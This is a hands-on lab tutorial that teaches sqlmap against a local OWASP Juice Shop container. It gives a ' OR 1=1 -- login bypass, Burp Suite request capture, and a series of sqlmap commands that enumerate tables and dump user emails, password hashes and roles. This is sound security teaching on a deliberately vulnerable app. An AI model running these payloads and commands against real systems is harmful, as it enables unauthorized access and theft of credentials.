



# SQLMap

# Ubuntu VM
>[!Note]
> This lab was created with the assumption that the user would be using a provided VM with the proper packages pre-installed when necessary. If you're doing this on your own virtual machine, this process may become more difficult. You will have to download packages to run the commands listed within this lab. Instructions for a build from your personal VM/the ground up are not included within this lab.

## Lab Goal

The goal of this lab is to introduce **sqlmap**, a tool used to automate the detection and exploitation of SQL injection vulnerabilities.

## In this lab you will

- Understand the basic parameters of **sqlmap** and how to use them effectively
- Use **sqlmap** to exploit a SQL injection vulnerability in a login form
- Follow a structured process after identifying an injectable parameter
- Enumerate databases, tables, and columns
- Extract sensitive data from the database

## What is sqlmap

Sqlmap is an open-source tool that automates the detection and exploitation of SQL injection vulnerabilities. It is a robust tool with multiple functionalities that help us identify and enumerate databases.

## Run OWASP Juice Shop

Run juice shop:

```bash
sudo docker run -d --rm -p 3000:3000 --name juice-new bkimminich/juice-shop:v19.2.1
```

Verify that juice shop is running:

```bash
sudo docker ps
```


>[!IMPORTANT]
>It is important to use your linux machine IP in order to be able to catch the request with burpsuite in the next steps!
>You will have a different IP, use yours!
>Replace the **<YOUR_UBUNTU_IP>** placeholder with your ip.

Open your browser and go to:

```
http://<YOUR_UBUNTU_IP>:3000
```


## Open Burp Suite

Burp Suite is a powerful tool with numerous capabilities. In our case, we will use it as a proxy to intercept the POST request that is performed when we submit our credentials at the login page.

Select the `search` icon in your taskbar and search `Burpsuite`.


After open it, select `Next` -> `Start Burp`.

Now Burp Suite is ready for use. Go to the `Proxy` tab and enable the `Intercept` to `on`.


## Foxy Proxy

Foxy Proxy is a web extension that helps us easily route our web traffic through different proxies. In our case, we have already created a route that sends our traffic through Burp Suite. That's how we will intercept the POST request.

The Foxy Proxy extension is on the top right of the browser.



We have created the `burp` proxy, which routes our traffic through Burp Suite. We will use this proxy in the next step.

## Request Interception

After accesing owasp juice shop in our browser navigate to the login page.


Login pages are usually interesting for SQL Injection attacks, because we can get unauthorized access to an account where we are not supposed to have access without knowing the password. This account could be a simple user or an admin user with high privileges. This led us to privilege escalation on the website.

Try to login at the page. Obviously, we don't have any credentials, and here comes the SQL Injection part. As we mentioned before, from a login page, we can get unauthorized access to an account without knowing the password. If you try a common SQLi payload like `' OR 1=1 --` and a random password, you will see that you logged in with an admin account.


This is amazing, but it will not always be that simple. Let's capture the POST request and see what else we can do with sqlmap. Log out and go once again to the login page.

At this point, we must mention that sqlmap operates with both GET and POST requests. For the demonstration of this lab, we will focus on how to use it with POST requests.

Now its time to enable the burp proxy from our extension. Click on the extension on the top right of the browser and select the `burp` proxy.


Try to log in with credentials like `test:test`. Burp Suite will pop up, and you will see the POST request. Copy the POST request and save it in a file.


Open a terminal and execute the following commands:

```bash
cd ~/BnB/Sqlmap/
```

```bash
nano req.txt
```

Save with `CTRL+O` -> `Enter`. Exit with `CTRL+X`


```bash
cat req.txt
```


Now that we have the POST request, close the Burp Suite and disable the Foxy Proxy.

## Database enumeration with sqlmap

As we can see, the data of the POST request is parsed from the server through a JSON format. We figured out that the `email` parameter is vulnerable to SQLi.

It's time for the database enumeration!

Sqlmap by default tests multiple payloads for different types of databases. Hence, our first target is to identify the type of database that is used in the backend. In this way, we achieve more tailored checks by sqlmap and also reduce the amount of time that sqlmap takes to perform these checks.

Execute the following command:

```bash
sqlmap -r req.txt -p email --dbs --batch
```

**Parameters**:

- `-r <request_file>` : Loads the HTTP request from a file
- `-p <parameters>`   : Specifies the vulnerable parameter
- `--dbs`             : Enumerates databases
- `--batch`           : Runs without interactive prompts



Sqlmap terminated when it received status code 401. We don't want something like that because we know that the `email` parameter is vulnerable, and SQLi exists. When we want to ignore these kinds of terminations, we can use the `--ignore-code` parameter followed by the status code we want to ignore. Hence, when you want to ignore one or multiple status codes, you can use this parameter to achieve this functionality.

Let's add this parameter and observe the differences.

```bash
sqlmap -r req.txt -p email --dbs --batch --ignore-code=401
```

**Parameters**:

- `--ignore-code=<status_codes>` : Ignore the specified HTTP codes


This time, we see much more information from the sqlmap output, but still, we don't have the desired results. Although we have a new message, that all the tests failed.

It's time to introduce two new parameters that determine the number of payloads sqlmap will test and how aggressive these payloads will be.

```bash
sqlmap -r req.txt -p email --dbs --batch --ignore-code=401 --level=5 --risk=4
```

**Parameters**:

- `--level=<1-5>` : Defines the level of tests to perform
- `--risk=<1-3>`  : Defines the risk of tests to perform


We found it!!!

In the first image, we see that sqlmap identified `email` parameter as injectable, and in the second image sqlmap tell as the type of SQL Injection (`boolean-based blind`) and the database used in the backend (`SQLite`).

>[!NOTE]
>
>Because SQLite usually works with a single database file, which means that it doesn't have a database server hosting many different databases (like MySQL, PostgreSQL, MSSQL), the `--dbs` parameter doesn't give us a list of real database names. That's why we go directly to the table enumeration right below.

Now we can specify the database with the `--dbms` parameter.

The next step after identifying the database is to retrieve its tables. This is accomplished with the `--tables` parameter.

```bash
sqlmap -r req.txt -p email --dbms=sqlite --batch --ignore-code=401 --tables
```

**Parameters**:

- `--dbms=<databse_type>`  : Tells sqlmap which database system is used by the target
- `--tables`               : Enumerate DBMS database tables



We now have all the tables in the SQLite database!

After finding all the tables, we can find their columns to perform more detailed searches or dump all of them.

To find the columns of a specific table, you must use a combination of two parameters. The `-T` parameter followed by the name of the table, and the `--columns` parameter.

### Time Problem

As you have found out sqlmap is a quite slow tool, and in the next steps, where we will retrieve a large amount of data, it is critical to minimize the amount of time it takes to extract them. First, we see that defining the database with the `--dbms` parameter was much better. Another remarkable way is by specifying the number of threads sqlmap uses. With the `--threads` parameter, we can specify the number of threads we want sqlmap to use.


Let's get the `Users` table columns.

```bash
sqlmap -r req.txt -p email --dbms=sqlite --batch --ignore-code=401 -T Users --columns --threads 3
```

**Parameters**:

- `-T <tables_name>`              : DBMS database tables to enumerate 
- `--columns`                     : Enumerate DBMS database table columns
- `--threads <number_of_threads>` : The number of threads will be used by sqlmap


Now that we know the table columns, we can either dump all the records of the table with the `--dump` parameter like that:

```bash
sqlmap -r req.txt -p email --dbms=sqlite --batch --ignore-code=401 -T Users --dump
```

Or we can do a more personalized query with specific columns. This takes place with the help of the `-C` parameter, followed by the column names where we want.

```bash
sqlmap -r req.txt -p email --dbms=sqlite --batch --ignore-code=401 -T Users -C id,username,email,password,role --dump
```

We don't know in advance the number of records in the table, and we can't estimate the time it will take to extract all the rows of the table. Here comes the `--start` and `--stop` parameters, followed by the start and end line we want to extract.

```bash
sqlmap -r req.txt -p email --dbms=sqlite --batch --ignore-code=401 -T Users -C id,username,email,password,role --dump --start=1 --stop=10
```

For this step, execute the following command, which retrieves the `id`, `username`, `email`, `password`, `role` columns from the `Users` table:

```bash
sqlmap -r req.txt -p email --dbms=sqlite --batch --ignore-code=401 -T Users -C id,username,email,password,role --dump --start=1 --stop=10 --threads 4
```

**Parameters**:

- `--dump`               : Dump DBMS database table entries
- `-C <column_names>`    : DBMS database table columns to enumerate
- `--start=<row_number>` : First dump table entry to retrieve
- `--stop=<row_number>`  : Last dump table entry to retrieve


>[!NOTE]
>
>The extracted data are dummy, just for the lab demonstration. You can't log in with them on the login page.

As we can see, sqlmap extracted the data from the database, but it didn't stop there. Then, attempted to break the hashed passwords via a dictionary-based attack.

You can perform the same actions to retrieve the data from other tables `Wallets` and `Cards`, in order to retrieve useful information.

## Cleanup

Stop the owasp juice shop container:

```bash
sudo docker stop juice-new
```
